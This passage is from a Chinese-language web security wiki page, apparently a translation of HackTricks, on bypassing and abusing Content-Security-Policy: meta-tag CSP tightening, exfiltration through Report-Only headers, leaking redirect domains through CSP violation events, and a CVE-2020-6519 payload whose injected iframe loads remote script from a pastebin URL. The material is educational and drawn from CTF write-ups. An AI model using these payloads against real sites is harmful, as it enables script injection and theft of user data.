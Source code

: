 在[**这个CTF写作**](https://github.com/aszx87410/ctf-writeups/issues/48)中，通过**HTML注入**可以**进一步限制**一个**CSP**，从而禁用防止CSTI的脚本，因此**漏洞变得可利用。**\
可以使用**HTML元标签**使CSP更加严格，并且可以通过**移除**允许其**nonce**的**入口**来禁用内联脚本，并通过sha**启用特定的内联脚本**：
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'
'unsafe-eval' 'strict-dynamic'
'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2boz%2bCtD7RE4='
'sha256-Tz/iYFTnNe0de6izIdG%2bo6Xitl18uZfQWapSbxHE6Ic=';">
```
### JS exfiltration with Content-Security-Policy-Report-Only

如果你能让服务器响应带有 **`Content-Security-Policy-Report-Only`** 头部且 **值由你控制**（可能是因为 CRLF），你可以让它指向你的服务器，并且如果你 **包裹** 你想要泄露的 **JS 内容** 使用 **`<script>`**，并且因为 CSP 很可能不允许 `unsafe-inline`，这将 **触发 CSP 错误**，并且部分脚本（包含敏感信息）将从 `Content-Security-Policy-Report-Only` 发送到服务器。

对于一个例子 [**查看这个 CTF 文章**](https://github.com/maple3142/My-CTF-Challenges/tree/master/TSJ%20CTF%202022/Nim%20Notes)。

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)
```javascript
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```
### 通过CSP和Iframe泄露信息

* 创建一个指向一个URL的`iframe`（我们称之为`https://example.redirect.com`），该URL被CSP允许。
* 该URL随后重定向到一个秘密URL（例如，`https://usersecret.example2.com`），该URL **不被** CSP允许。
* 通过监听`securitypolicyviolation`事件，可以捕获`blockedURI`属性。该属性揭示了被阻止的URI的域名，从而泄露了初始URL重定向的秘密域名。

有趣的是，像Chrome和Firefox这样的浏览器在处理与CSP相关的iframes时表现不同，可能导致由于未定义行为而泄露敏感信息。

另一种技术涉及利用CSP本身推断秘密子域名。该方法依赖于二分搜索算法，并调整CSP以包含故意被阻止的特定域名。例如，如果秘密子域名由未知字符组成，可以通过修改CSP指令来阻止或允许这些子域名，逐步测试不同的子域名。以下是一个片段，展示了如何设置CSP以促进此方法：
```markdown
img-src https://chall.secdriven.dev https://doc-1-3213.secdrivencontent.dev https://doc-2-3213.secdrivencontent.dev ... https://doc-17-3213.secdriven.dev
```
通过监控哪些请求被CSP阻止或允许，可以缩小秘密子域名中可能的字符，最终揭示完整的URL。

这两种方法利用了CSP在浏览器中的实现和行为的细微差别，展示了看似安全的策略如何无意中泄露敏感信息。

来自[**这里**](https://ctftime.org/writeup/29310)的技巧。

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
